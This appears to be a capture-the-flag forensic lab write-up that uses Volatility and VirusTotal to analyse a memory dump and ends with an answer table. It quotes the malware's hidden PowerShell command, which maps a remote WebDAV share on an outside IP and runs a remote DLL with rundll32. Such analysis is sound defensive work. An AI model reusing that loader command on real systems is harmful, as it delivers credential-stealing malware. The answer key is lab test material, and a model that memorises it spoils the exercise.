 # Reveal Lab

### Scenario

You are a forensic investigator at a financial institution, and your SIEM flagged unusual activity on a workstation with access to sensitive financial data. Suspecting a breach, you received a memory dump from the compromised machine. Your task is to analyze the memory for signs of compromise, trace the anomaly's origin, and assess its scope to contain the incident effectively.

### Tool

- Volatility

- Virustotal

### Solution

#### Question 1: Identifying the name of the malicious process helps in understanding the nature of the attack. What is the name of the malicious process?

Volatility 3 has many plugins to manually or automatically analyze this data. `malfind` help us to find suspicious processes

```bash
python3 ~/Desktop/tools/volatility3/vol.py -f 192-Reveal.dmp windows.malfind
```

![image](./assets/1.png)

We see that, there is `powershell.exe` process. To confirm whether it is malicious process, I will check `cmdline` to know what it does.

```bash
python3 ~/Desktop/tools/volatility3/vol.py -f 192-Reveal.dmp windows.cmdline --pid 3692
```

![image](./assets/2.png)

Well, we confirm that there is malicious process

#### Question 2: What is the parent PID of the malicious process?

I will use `pstree` plugin to check it

```bash
python3 ~/Desktop/tools/volatility3/vol.py -f 192-Reveal.dmp windows.pstree
```

![image](./assets/3.png)

#### Question 3: What is the file name that the malware uses to execute the second-stage payload?

First of all, we have the powershell command of that process:

```bash
powershell.exe -windowstyle hidden net use \\45.9.74.32@8888\davwwwroot\ ; rundll32 \\45.9.74.32@8888\davwwwroot\3435.dll,entry
```

I see that:

- `powershell.exe -windowstyle hidden`: Run Powershell with hidden window -> maybe avoid being detected by users
- `net use \\45.9.74.32@8888\davwwwroot\`: Maps a remote shared directory located on `45.9.74.32`. Maybe attacker will load or transfer malicious payload from this shared directory
- `rundll32 \\45.9.74.32@8888\davwwwroot\3435.dll,entry`: run `rundll32.exe` (often used to load/run DLL file). In this command, attacker will load and run the `3435.dll` from shared directory. 

#### Question 4: What is the name of the shared directory being accessed on the remote server?

As explained in question 3

#### Question 5: What is the MITRE ATT&CK sub-technique ID that describes the execution of a second-stage payload using a Windows utility to run the malicious file?

In this attack, attacker use `rundll32.exe` to execute malicious payloads.

![image](./assets/4.png)

#### Question 6: Identifying the username under which the malicious process runs helps in assessing the compromised account and its potential impact. What is the username that the malicious process runs under?

I will use `getsids` to get the answer

```bash
python3 ~/Desktop/tools/volatility3/vol.py -f 192-Reveal.dmp windows.getsids --pid 3692
```

![image](./assets/5.png)

#### Question 7: What is the name of the malware family?

I will search the IP `45.9.74.32` on Virustotal to find other malicious file which related to this IP, and I will check the family name of it.

![image](./assets/6.png)

![image](./assets/7.png)

There are many DLL files related this IP, so I checked it

![image](./assets/8.png)

OR, in the first time we search Virustotal, we have found it bruh

![image](./assets/9.png)


### Final Answer

| Question | Answer |
|---|----|
| Question 1 | `powershell.exe` | 
| Question 2 | `4120` | 
| Question 3 | `3435.dll` |
| Question 4 | `davwwwroot` |
| Question 5 | `T1218.011`|
| Question 6 | `Elon` |
| Question 7 | `strelastealer` |